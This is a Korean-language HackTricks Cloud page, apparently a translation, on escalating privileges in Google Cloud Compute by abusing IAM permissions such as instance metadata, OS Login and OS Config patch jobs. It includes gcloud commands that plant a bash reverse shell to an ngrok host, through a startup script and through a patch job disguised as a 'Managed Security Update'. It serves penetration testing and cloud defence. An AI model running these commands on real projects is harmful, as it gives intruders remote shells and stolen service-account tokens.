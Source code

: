 # GCP - Compute Privilege Escalation

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 **제로부터 영웅이 되는 AWS 해킹을 배우세요**!</summary>

HackTricks를 지원하는 다른 방법:

* **회사가 HackTricks에 광고되길 원하거나** **HackTricks를 PDF로 다운로드**하고 싶다면 [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구매하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 저희의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f)이나 [**텔레그램 그룹**](https://t.me/peass)에 **가입**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우**하세요.
* **HackTricks** 및 **HackTricks Cloud** 깃허브 저장소에 PR을 제출하여 **해킹 트릭을 공유**하세요.

</details>

## Compute

Compute 및 GCP의 VPC (네트워크)에 대한 자세한 정보는 다음을 확인하세요:

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
인스턴스의 메타데이터를 수정해야 하는 모든 권한 상승 공격을 수행하려면 (새 사용자 및 SSH 키 추가와 같은) **인스턴스에 연결된 SA에 대한 `actAs` 권한이 필요**하다는 점을 유의하세요. 심지어 SA가 이미 연결되어 있더라도!
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

해당 권한을 사용하면 **인스턴스**의 **메타데이터 정보를 수정**하고 **사용자의 인증 키를 변경**하거나 **sudo 권한을 가진 새 사용자를 생성**할 수 있습니다. 따라서 어떤 VM 인스턴스로든 SSH를 통해 실행하여 해당 인스턴스가 실행 중인 GCP 서비스 계정을 탈취할 수 있습니다.\
제한 사항:

* 기본적으로 VM 인스턴스에서 실행되는 GCP 서비스 계정은 **매우 제한된 범위**를 갖습니다.
* **SSH 서버에 연락할 수 있어야**합니다.

이 권한을 악용하는 방법에 대한 자세한 정보는 다음을 확인하세요:

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

또는 새로운 시작 스크립트를 추가하고 인스턴스를 다시 부팅하여 이 공격을 수행할 수 있습니다:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

이 권한은 전체 프로젝트가 아닌 특정 인스턴스에 대해 이전 권한과 **동일한 권한을 부여**합니다. **이전 섹션과 동일한 취약점 및 제한이 적용**됩니다.

### `compute.instances.setIamPolicy`

이 유형의 권한을 사용하면 **이전 권한을 가진 역할을 부여**하고 그것을 악용하여 권한을 상승시킬 수 있습니다.

### **`compute.instances.osLogin`**

**인스턴스에서 OSLogin이 활성화**된 경우, 이 권한을 사용하여 **`gcloud compute ssh [INSTANCE]`**를 실행하고 인스턴스에 연결할 수 있습니다. 인스턴스 내에서 **루트 권한을 가지지 않습니다**.

{% hint style="success" %}
이 권한으로 VM 인스턴스 내에서 성공적으로 로그인하려면 VM에 연결된 SA에 대한 `iam.serviceAccounts.actAs` 권한이 필요합니다.
{% endhint %}

### **`compute.instances.osAdminLogin`**

**인스턴스에서 OSLogin이 활성화**된 경우, 이 권한을 사용하여 **`gcloud compute ssh [INSTANCE]`**를 실행하고 인스턴스에 연결할 수 있습니다. 인스턴스 내에서 **루트 권한을 가질 수 있습니다**.

{% hint style="success" %}
이 권한으로 VM 인스턴스 내에서 성공적으로 로그인하려면 VM에 연결된 SA에 대한 `iam.serviceAccounts.actAs` 권한이 필요합니다.
{% endhint %}

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

할당된 서비스 계정이 있는 가상 머신을 만들고 해당 서비스 계정의 토큰을 훔쳐서 특권을 상승할 수 있습니다.

이 방법의 exploit 스크립트는 [여기](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py)에서 찾을 수 있습니다.

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

**`osconfig.patchDeployments.create`** 또는 **`osconfig.patchJobs.exec`** 권한이 있는 경우 [**패치 작업 또는 배포**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching)를 생성할 수 있습니다. 이를 통해 환경에서 측면 이동을 수행하고 프로젝트 내의 모든 컴퓨팅 인스턴스에서 코드 실행을 얻을 수 있습니다.

현재 인스턴스에 연결된 SA에 대한 `actAs` 권한이 **필요하지 않습니다**.

수동으로 이를 악용하려면 [**패치 작업**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_job.json) **또는** [**배포**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_deployment.json)를 생성해야 합니다.\
패치 작업을 실행하려면:

{% code overflow="wrap" %}
```python
cat > /tmp/patch-job.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18442 0>&1
EOF

gsutil cp /tmp/patch-job.sh gs://readable-bucket-by-sa-in-instance/patch-job.sh

# Get the generation number
gsutil ls -a gs://readable-bucket-by-sa-in-instance

gcloud --project=$PROJECT_ID compute os-config patch-jobs execute \
--instance-filter-names=zones/us-central1-a/instances/<instance-name> \
--pre-patch-linux-executable=gs://readable-bucket-by-sa-in-instance/patch-job.sh#<generation-number> \
--reboot-config=never \
--display-name="Managed Security Update" \
--duration=300s
```
{% endcode %}

패치 배포를 배포하려면:
```bash
gcloud compute os-config patch-deployments create <name> ...
```
도구 [patchy](https://github.com/rek7/patchy)는 이전에 이 구성 오류를 악용하는 데 사용되었을 수 있습니다 (하지만 지금은 작동하지 않습니다).

**공격자는 이를 영속적으로 악용할 수도 있습니다.**

### `compute.machineImages.setIamPolicy`

**컴퓨터 이미지에 대한 추가 권한을 부여하세요.**

### `compute.snapshots.setIamPolicy`

**디스크 스냅샷에 대한 추가 권한을 부여하세요.**

### `compute.disks.setIamPolicy`

**디스크에 대한 추가 권한을 부여하세요.**

### 액세스 스코프 우회

다음 링크를 따라가면 [**액세스 스코프 우회를 시도하는 아이디어**](../)를 찾을 수 있습니다.

### GCP Compute 인스턴스에서 로컬 권한 상승

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## 참고 자료

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)로부터 제로에서 영웅까지 AWS 해킹 배우기</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 PDF로 HackTricks를 다운로드**하려면 [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구매하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* 💬 [**디스코드 그룹**](https://discord.gg/hRep4RUj7f)에 가입하거나 [**텔레그램 그룹**](https://t.me/peass)에 가입하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **HackTricks** 및 **HackTricks Cloud** github 저장소에 PR을 제출하여 **해킹 트릭을 공유**하세요.

</details>
